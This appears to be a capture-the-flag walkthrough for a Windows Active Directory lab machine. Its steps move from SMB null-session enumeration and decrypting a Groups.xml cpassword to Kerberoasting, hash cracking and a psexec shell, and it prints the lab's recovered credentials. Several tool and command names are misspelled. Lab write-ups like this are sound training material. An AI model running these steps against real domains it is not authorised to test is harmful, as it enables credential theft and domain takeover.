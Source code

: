 1. Enumerate ports

2. When seeing that the machine is using Windows as OS and that the SMB port is open (445 - Microsoft DS) you can try to enumerate the service using "crackmapexec". Usage: crackmapexec smb __{VICTIM's-IP}__         

3. Add the domain paired with the machin ip to the hosts file in /etc/hosts

4. Try to enumerate objects in the domain using a smb client and a null session because of the lack of credentials to enter the server. Usage: smbclient -L __{VICTIM's-IP}__-N 
	-L : Allows you to look at what services are available on the server 
	-N : Suppresses the normal password prompt from the client to the user. Used in a null session
		4.1 - Because the port 88 is open and kerberos is running you can try to enumerate all the users of the server with the usage of kerbrute. Usage: kerbrute userenum --dc __{VICTIM's-IP}__ -d __{DOMAIN ex. active.htb}__ __{WORDLIST}__
		4.2 - For kerberosting and ASREPRoast attack you've to be with the hour in the system equal to the server's one. Tool: ntpdate __{VICTIM's-IP}__

5. After listing all the sharenames you can also list the privileges for each one of those shares. Usage: smbmap -H __{VICTIM's-IP}__
	-H : Stands for Host

6. Right after that step, if a share is public, you can use the -r flag to extract all the information from that share. Usage: smbmap -H __{VICTIM's-IP}__ -r __{SHARE-NAME}__
	-r : List contents of a directory

7. Because of the recognizable structure of the server we can tell this is a sysvol: 
	-DfsrPrivate 
	-Policies
	-scripts

8. While enumerating the service we've to look for Groups.xml because that file sometimes has the password hash to the service so that enables you to enter the system. In this machine particularly Gropus.xml is in the directory:
		Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences

9. In order to download the file you can use smbmap like this: smbmap -H __{VICTIM's-IP}__ --download __{PATH}__/Groups.xml

10. Once having the Groups.xml in our hands we can enter cat out the file and get the hash in the cpassword field. The hash will be like: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ. Besides that, you also have to pay attention to the userName field in order to known which user that password stands for

11. After getting the hash you can get the password by decrypting it with gpp-decrypt. Usage: gpp-decrypt __{HASH}__

12. Once you've get the username and the password you can verify if they're correct with the usage of crackmapexec. Command: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__

13. Now that you have an user you can list all the server shares again to see if you've access to a new-one. Usage: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --shares

14. Now, because we've Read access to the users share we can enumerate it with smbmap with the following command: smbmap -H __{VICTIM's-IP}__ -u SVC_TGS -p GPPstillStandingStrong2k18 -r Users 
	 -u and -p : Stands for Username and Password

15. Enumerate till you get the user flag located in the desktop of the user SVC_TGS and download it with the previously named user with the flag --download

16. Log into the service with rpcclient. Usage: rpcclient -U "__{USER}__%__{PASSWORD}__" __{VICTIM's-IP}__
		16.1 - Sometimes you can skip all the previous steps and try to connect with rpcclient with a null session. Way to do it: rpcclient -U "" __{VICTIM's-IP}__ -N
		16.2 - If with the null session attack previously named you get a list of all the users in the server you can try to do an ASREPRoast

17. Useful rpcclient commands: 
		_enumdomusers_ - Enumerate domain users of the domain controller
		_enumdomgropus_ - Enumerate domain groups of the domain controller
		_querygroupmem_ __{RID-OF-GROUP}__ - Enumerates the users that belong to the group with that RID
		_queryuser_ __{RID-OF-A-USER}__ - Gives you all the information on the server about a certain user
		_querydispinfo_ - Enumerates all the descriptions of the users in the domain controller

18. After trying to do an ASREPRoast attack, as we can't seem to get any creedentials we can try using GetUserSPN.py instead of GETNpusers.py. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__
		18.1 - This attack will give us a TGS (Ticket Granting Service) of the admin through the usage of credentials previously retrieved from other attacks
		18.2 - After seeing that the tools gives us a response with a TGS of the admin we can add the flag -request to get the credentials for the admin account. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__ -request

19. When you finally have the hash of the admin's password you can dump it into a file called hash and try to crack it. Way: john -w:{Wordlist} {Hash} 

20. Download the root flag with the usage of smbmap and the parameter --download. Way: smbmap -H __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --download Users/Administrator/Desktop/root.txt
		20.1 - Another way to get the flag could be gain system access with the use of psexec.py. Usage: psexec.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASS}__@__{VICTIM's-IP}__ cmd.exe